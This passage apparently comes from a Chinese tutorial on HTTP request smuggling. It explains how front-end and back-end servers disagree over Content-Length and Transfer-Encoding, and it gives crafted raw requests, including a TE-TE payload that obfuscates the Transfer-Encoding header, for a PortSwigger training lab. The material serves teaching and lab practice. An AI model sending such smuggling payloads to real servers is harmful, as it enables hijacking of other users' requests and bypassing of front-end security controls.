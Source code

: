 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915145641.png-water_print](assets/1699409511-3dc90cba248bb826fece2657de784818.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915145641.png-water_print")

由于前端服务器处理 `Transfer-Encoding`，当其读取到 `0\r\n\r\n`时，认为是读取完毕了，此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理 `Content-Length` 请求头，当它读取完 `5c\r\n` 之后，就认为这个请求已经结束了，后面的数据就认为是另一个请求了，也就是：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```http<br>GPOST / HTTP/1.1<br>Content-Type: application/x-www-form-urlencoded<br>Content-Length: 15<br><br>x=1<br>0<br>``` |

### [](#25-te-te)2.5 TE-TE

`TE-TE`，也很容易理解，当收到存在两个请求头的请求包时，前后端服务器都处理 `Transfer-Encoding` 请求头，这确实是实现了 RFC 的标准。不过前后端服务器毕竟不是同一种，这就有了一种方法，我们可以对发送的请求包中的 `Transfer-Encoding` 进行某种混淆操作，从而使其中一个服务器不处理 `Transfer-Encoding` 请求头。从某种意义上还是 `CL-TE` 或者 `TE-CL`。

Lab 地址：[https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ac4b1fcb1f596028803b11a2007400e4.web-security-academy.net\r\n<br>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=Mew4QW7BRxkhk0p1Thny2GiXiZwZdMd8\r\n<br>Content-length: 4\r\n<br>Transfer-Encoding: chunked\r\n<br>Transfer-encoding: cow\r\n<br>\r\n<br>5c\r\n<br>GPOST / HTTP/1.1\r\n<br>Content-Type: application/x-www-form-urlencoded\r\n<br>Content-Length: 15\r\n<br>\r\n<br>x=1\r\n<br>0\r\n<br>\r\n<br>``` |
